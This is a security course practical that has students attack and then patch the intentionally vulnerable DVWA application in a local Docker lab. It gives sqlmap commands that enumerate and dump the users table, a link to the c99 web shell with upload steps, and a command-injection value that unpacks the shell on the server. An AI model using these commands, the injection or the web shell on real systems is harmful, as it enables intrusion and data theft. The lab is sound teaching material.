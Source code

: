 Damn Vulnerable Web Application (DVWA)
======================================

In today's practical, you will be given an application. A pretty damn vulnerable
one.

**Your mission**: find, exploit and eventually fix as much vulnerabilities as you
can!

As the application will be running in a Docker container with its own webserver
and database, the isolation level provided by the container should be sufficient
for you to feel free to attack the application in any way you want!

## Setup

Clone [DVWA](https://github.com/K-Phoen/dvwa) and follow the instructions in the
README to get it running.

Once the container is up and running, **setup the database** and use the
credentials "**admin/password**" to log in.

The **security level of the application can be changed** to low, medium or high.
Follow the "DVWA Security" link in the sidebar and choose the desired level
(*low* is probably a good choice to start).

More information on the application is available here: http://www.dvwa.co.uk/
The source is also committed on the DVWA repository, in the `dvwa-1.0.8`
directory.

**Note:** a few interesting tools are also provided in this repository…

## ATTACK!

Different type of **vulnerabilities are listed in the sidebar**, each entry
linking to a vulnerable page.

**For each vulnerability** type, you should be able to **exploit it** when the
security level is configured to "low". For more challenge, feel free to raise
the security level.

Attacking web applications is one thing. Learning how to protect yourself from
such attacks is another one.

Now that you successfully attacked this application, **try to make it more secure!**

**Note:** feel secure enough? Share your patched application with other students
and tell them to break it if they can!

### Tools

A couple of tools are provided in the [dvwa repository](https://github.com/K-Phoen/dvwa).

Internet is full of such tools (if you search in the right places, you might
even be able to find tools built by the NSA but stolen by hackers…).

In this practical, you will use two famous ones: sqlmap and c99 shell.

#### sqlmap

[sqlmap](http://sqlmap.org/) is an open source penetration testing tool that
automates the process of detecting and exploiting SQL injection flaws and taking
over of database servers.

Their [user guide](https://github.com/sqlmapproject/sqlmap/wiki/Introduction)
is a nice entry point to learn how the tool works.

For the lazy ones, here is a list of useful command lines:

<details>
    <summary><strong>List databases</strong></summary>

    ./sqlmap/sqlmap.py -u "http://localhost:8080/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=<YOUR PHPSESSID>" --dbs
</details>

<details>
    <summary><strong>List tables</strong></summary>

    ./sqlmap/sqlmap.py -u "http://localhost:8080/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=<YOUR PHPSESSID>" -D dvwa --tables
</details>

<details>
    <summary><strong>List columns</strong></summary>

    ./sqlmap/sqlmap.py -u "http://localhost:8080/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=<YOUR PHPSESSID>" -D dvwa -T users --columns
</details>

<details>
    <summary><strong>Dump data</strong></summary>

    ./sqlmap/sqlmap.py -u "http://localhost:8080/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=<YOUR PHPSESSID>" -D dvwa -T users --dump
</details>

**Note:** the last command is able to dump a list of encrypted user password and
display them as plain text. How is this possible? Suggest a fix to prevent this.

A [full usage guide](https://github.com/sqlmapproject/sqlmap/wiki/Usage) can be
found on their wiki.

#### c99

[c99](https://github.com/K-Phoen/dvwa/raw/master/exploits/c99.php.gz) is a
well-known and powerful web-based shell.

In order to use it, you have to:
1. upload it on the server;
2. access the uploaded file to execute the shell.

<details>
<summary><strong>Possible solution</strong></summary>

<ol>
    <li>Upload the exploit (.gz), then look at: <a href="http://localhost:8080/hackable/uploads/">http://localhost:8080/hackable/uploads/</a></li>
    <li>Uncompress the archive using a command executionvulerability: <code>; /bin/gunzip -v ../../hackable/uploads/c99.php</code></li>
</ol>
</details>


---

You can jump to: [Nothing right now…](8.md).
